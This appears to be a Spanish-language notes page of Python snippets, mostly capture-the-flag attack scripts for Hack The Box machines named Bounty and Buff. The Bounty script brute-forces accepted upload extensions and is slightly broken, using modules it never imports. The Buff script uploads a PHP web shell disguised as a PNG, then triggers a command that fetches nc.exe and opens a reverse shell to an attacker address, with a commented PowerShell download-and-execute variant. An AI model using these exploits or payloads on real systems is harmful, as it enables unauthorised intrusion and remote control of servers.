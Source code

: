 # Scripts y cosas en Python

Se muestran a continuación utilidades mas usadas en python.

## Servidor HTTP

Se crea un servidor **HTTP** en el directorio actual:

<pre>
python3 -m http.server 8080
</pre>

## Script básico

Se crea plantilla de Script básico. **NO COPIAR, ESCRIBIR**.

Se muestra y se crea script_basico.py.

<pre>
#!/usr/bin/python3

# Importaciones mas comunoes
import requests, signal, sys, time


def def_handler(sig, frame):

	print("\n\n[!] Saliendo ....\n")
	sys.exit(1)

# Ctlr+C
signal.signal(signal.SIGINT, def_handler)

def executeCommand():

	print("Ejecutando .... ")
	time.sleep(10)
	print("Ejecutado")


if __name__ == '__main__':

	executeCommand()

</pre>

## Script fuerza bruta maquina Bounty

~~~
import signal, time, pdb, sys, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
transfer_url = "http://10.10.10.93/transfer.aspx"
burp = {'http': 'http://127.0.0.1:8080'}

def uploadFile(extension):

    s = requests.session()
    r = s.get(transfer_url)

    viewState = re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0]
    eventValidation = re.findall(r'id="__EVENTVALIDATION" value="(.*?)"', r.text)[0]

    post_data = {
        '__VIEWSTATE': viewState,
        '__EVENTVALIDATION': eventValidation,
        'btnUpload': 'Upload'
    }

    fileUploaded = {'FileUpload1': ('Prueba%s' % extension, 'Esto es una prueba')}

    r = s.post(transfer_url, data=post_data, files=fileUploaded)

    if "Invalid File. Please try again" not in r.text:
        log.info("La extensiÃ³n %s es vÃ¡lida" % extension)

if __name__ == '__main__':

    f = open("/usr/share/seclists/Discovery/Web-Content/raft-medium-extensions-lowercase.txt", "rb")

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    for extension in f.readlines():
        extension = extension.decode().strip()
        p1.status("Probando con la extensiÃ³n %s" % extension)
        uploadFile(extension)
~~~

## Script acceso maquina Buff

~~~ 
#!/usr/bin/python3

from pwn import *
import signal, time, pdb, sys, requests

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Ctlr+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

url = "http://10.10.10.198:8080/"
context ="upload.php?id="
internal_id = "gmsshell2"
png_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
upload_url= url + context + internal_id
#comando = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/PS.ps1')"
comando = "//10.10.14.16/smbFolder/nc.exe -e cmd 10.10.14.16 4444"
# comando = "ping 10.10.14.16"
shell_url = "%supload/%s.php" % (url,internal_id)

def makeRequest():

	print("Iniciando ataque ....")
	sleep(2)

	data = {'pupload': 'upload'}

	file = {"file":
		(
			"%s.php.png" % internal_id,  
			png_magicBytes+'\n'+r'<?php echo shell_exec("' + comando +'"); ?>'
			,'image/png', {'Content-Disposition': 'form-data'}
		)
	}

	print("Enviando petición ....")
	# Enviamos la petición
	s = requests.session()
	r = s.post(url=upload_url, files=file, data=data, verify=False)
	sleep(2)

	print("Ejecutando comando ....")

	r = s.get(shell_url, verify=False)
	sleep(2)

	print("Finalizamos ataque")
	sleep(1)
	sys.exit(0)

if __name__ == "__main__":

	makeRequest()

~~~ 
